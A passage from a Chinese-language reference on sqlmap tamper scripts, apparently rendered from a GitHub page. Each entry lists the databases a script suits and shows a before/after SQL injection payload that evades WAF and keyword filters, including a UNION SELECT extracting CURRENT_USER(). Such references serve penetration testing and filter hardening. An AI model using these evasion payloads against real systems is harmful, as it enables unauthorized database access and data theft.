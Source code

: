 适用数据库：MySQL >= 5.1.13\
测试通过数据库：MySQL 5.1.41\
作用：将空格替换为`#`，并添加一个随机字符串和换行符\
使用脚本前：`tamper('1 AND 9227=9227')`\
使用脚本后：`1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227`

#### **space2mssqlhash.py**

适用数据库：Microsoft SQL Server\
作用：pounds comment symbol “#” followed by a space character to replace newline

#### **space2mysqlblank.py**

适用数据库：MySQL\
测试通过数据库：MySQL 5.1\
作用：将空格替换为其他空格符号`('%09', '%0A', '%0C', '%0D', '%0B')`\
使用脚本前：`tamper('SELECT id FROM users')`\
使用脚本后：`SELECT%0Bid%0DFROM%0Cusers`

#### **space2mssqlblank.py**

适用数据库：Microsoft SQL Server\
测试通过数据库：Microsoft SQL Server 2000、Microsoft SQL Server 2005\
作用：将空格随机替换为其他空格符号`('%01', '%02', '%03', '%04', '%05', '%06', '%07', '%08', '%09', '%0B', '%0C', '%0D', '%0E', '%0F', '%0A')`\
使用脚本前：`tamper('SELECT id FROM users')`\
使用脚本后：`SELECT%0Eid%0DFROM%07users`

#### **space2comment.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0\
作用：将空格替换为`/**/`\
使用脚本前：`tamper('SELECT id FROM users')`\
使用脚本后：`SELECT/**/id/**/FROM/**/users`

### 绕过关键字检测

#### **randomcase.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0\
作用：随机大小写\
使用脚本前：`tamper('INSERT')`\
使用脚本后：`INseRt`

#### **versionedkeywords.py**

适用数据库：MySQL\
测试通过数据库：MySQL 4.0.18, 5.1.56, 5.5.11\
作用：注释绕过\
使用脚本前：`tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#')`\
使用脚本后：`1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#`
